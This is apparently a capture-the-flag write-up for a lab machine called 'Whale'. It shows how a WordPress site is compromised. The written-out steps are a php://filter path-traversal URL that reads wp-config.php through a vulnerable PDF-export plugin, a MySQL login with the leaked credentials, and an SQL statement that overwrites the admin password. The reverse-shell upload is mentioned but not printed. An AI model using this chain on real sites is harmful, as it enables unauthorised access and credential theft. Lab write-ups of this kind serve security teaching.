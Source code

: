 ## WHALE

DIFFICULTY= medium

OS = Linux


### Nmap scan

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e7ac9040-3910-472c-be9b-5ef758724426)

adding the domain to /etc/hosts
``echo "ip  bluewhale.net" >> /etc/hosts``

so, visiting the site shows it's running wordpress

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/016ff2dd-3aa3-4996-87f1-71fe567ed16f)

let's enumerate the wordpress using ``wpscan`` aggressive detection

```wpscan --url http://bluewhale.net/  --plugins-detection aggressive -t 120```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e4f489b7-a427-4c19-8ae1-ac24d5acb083)

it gives us a vulnerable plugin; the plugin is vulnerable to arbitrary file read

so, we can exploit it using [this](https://www.exploit-db.com/exploits/33004)

doing that,we should be able to read the wordpress config file ``wp-config``

```bluewhale.net/wp-content/plugins/post-pdf-export/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=../../../../wp-config.php```

reading it gives us the gives us the base64 encoded chars.

decoding it shows the mysql credential

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01cdc783-aa0d-4bb4-90b5-4cc1923258e5)

let's login to mysql with it 
``mysql -u wordpress -h bluewhale.net -p``
and input the password

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7780d4f1-3484-4965-9a8e-160e4e8cad08)
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e86ab4c-12bc-4a85-b364-48d9a0198a5a)

as u can see we have the first flag already

let's proceed by checking the wp_users table 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/eb5268df-f706-4f33-9883-980684964c78)

and yeah we have the credentials for the wordpress login

so, instead of cracking the password hash we can actually change the password to our desired own for easier loggin(cool trick right?) lol

```UPDATE wp_users SET user_pass = MD5('hacked') WHERE ID = 1;```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/bc564284-6efa-44b7-a82f-dcd6707a4d05)

so, we can now login to wordpress and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4b971843-adc4-4474-90ba-1f82bfa63aca)

login and upload a reverse shell using the add plugin feature
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/288de2a8-c124-488d-9af6-0499c0212844)



